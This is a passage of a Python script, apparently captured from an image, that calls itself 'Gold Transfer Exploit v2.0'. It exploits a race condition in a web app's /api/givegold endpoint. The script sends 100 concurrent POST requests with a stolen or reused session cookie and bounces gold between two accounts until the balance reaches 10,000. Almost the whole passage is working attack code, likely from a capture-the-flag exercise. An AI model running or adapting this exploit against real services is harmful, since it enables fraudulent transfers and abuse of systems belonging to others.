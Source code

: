 ```python
 
 headers = {
 "Host": TARGET_HOST,
 "Referer": f"http://{TARGET_HOST}/giving.html",
 "Content-Type": "application/x-www-form-urlencoded",
 "Cookie": f"connect.sid={session_cookie}"
 }
 
 # Prepare batch of asynchronous requests
 requests_list = [
 grequests.post(
 f"http://{TARGET_HOST}/api/givegold",
 data=f"user={recipient}&amount={amount}",
 headers=headers,
 timeout=3
 ) for _ in range(100)
 ]
 
 # Execute all requests concurrently
 grequests.map(requests_list)
 print(f"{Fore.GREEN}[âœ“] Transfer completed!")

def execute_gold_race():
 """Orchestrate gold transfer sequence between accounts"""
 print(f"\n{Fore.BLUE}{Style.BRIGHT}ðŸ Starting Gold Race Exploitation ðŸ\n")
 print(f"{Fore.MAGENTA}Target balance: {Fore.YELLOW}10,000 gold{Style.RESET_ALL}\n")
 
 total_gold = 0
 cycle_count = 0
 user_list = list(USERS.keys())
 
 while total_gold < 10000:
 # Determine current sender/receiver pair
 sender = user_list[cycle_count % 2]
 receiver = user_list[(cycle_count + 1) % 2]
 
 print(f"{Fore.WHITE}{'â•'*50}")
 print(f"{Fore.BLUE}[âš¡] Cycle #{cycle_count+1}: {sender} â†’ {receiver}")
 
 # Retrieve sender credentials and balance
 session_id, current_gold = get_user_session(sender, USERS[sender])
 total_gold = current_gold
 
 if current_gold > 0 and session_id:
 transfer_gold(receiver, session_id, current_gold)
 else:
 print(f"{Fore.RED}[âœ—] Skipping transfer - insufficient gold or invalid session")
 
 cycle_count += 1
 
 print(f"\n{Fore.GREEN}{Style.BRIGHT}ðŸŽ‰ Exploit successful! Final balance: {total_gold} gold")

if __name__ == "__main__":
 print(f"\n{Fore.YELLOW}{Style.BRIGHT}ðŸŒŸ Gold Transfer Exploit v2.0")
 print(f"{Fore.CYAN}Target: {TARGET_HOST}")
 print(f"{Fore.MAGENTA}Accounts: {', '.join(USERS.keys())}\n")
 
 execute_gold_race()
```
